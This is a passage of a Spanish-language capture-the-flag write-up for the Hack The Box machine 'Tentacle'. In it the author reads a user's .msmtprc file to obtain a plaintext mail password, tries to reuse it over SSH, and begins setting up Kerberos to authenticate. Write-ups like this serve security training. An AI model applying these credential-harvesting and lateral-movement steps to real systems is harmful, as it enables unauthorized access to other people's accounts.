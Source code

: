 En el directo de j.nakazawa hay un archivo con credenciales en texto claro

```null
root@smtp:/home/j.nakazawa# cat .msmtprc 
# Set default values for all following accounts.
defaults
auth           on
tls            on
tls_trust_file /etc/ssl/certs/ca-certificates.crt
logfile        /dev/null

# RealCorp Mail
account        realcorp
host           127.0.0.1
port           587
from           j.nakazawa@realcorp.htb
user           j.nakazawa
password       sJB}RM>6Z~64_
tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

# Set a default account
account default : realcorp
```

Como el ssh está abierto en la máquina víctima se puede tratar de ganar acceso al sistema

De momento no se puede, pero a hay a destacar un error

```null
ssh j.nakazawa@10.10.10.224
The authenticity of host '10.10.10.224 (10.10.10.224)' can't be established.
ED25519 key fingerprint is SHA256:jU/fBtt04OZczha/InvaZgDCZKbuGDpHT2AzRKxsesg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.224' (ED25519) to the list of known hosts.
j.nakazawa@10.10.10.224's password: 
Permission denied, please try again.
j.nakazawa@10.10.10.224's password: 
Permission denied, please try again.
j.nakazawa@10.10.10.224's password: 
j.nakazawa@10.10.10.224: Permission denied (gssapi-keyex,gssapi-with-mic,password).
```

Hace referencia a una autenticación por kerberos, por lo que hay que crear un archivo de configuración que tengo que crear y para poder autenticarme.

Para crear el archivo, basta con ejecutar lo siguiente:

```null
dpkg-reconfigure krb5-config
```

Se abrirá una interfaz gráfica donde hay que indicar el reino predeterminado de la versión 5 de Kerberos. En este caso REALCORP.HTB, importante que esté en mayusculas, es case-sensitive

<img src="/writeups/assets/img/Tentacle-htb/3.png" alt="">
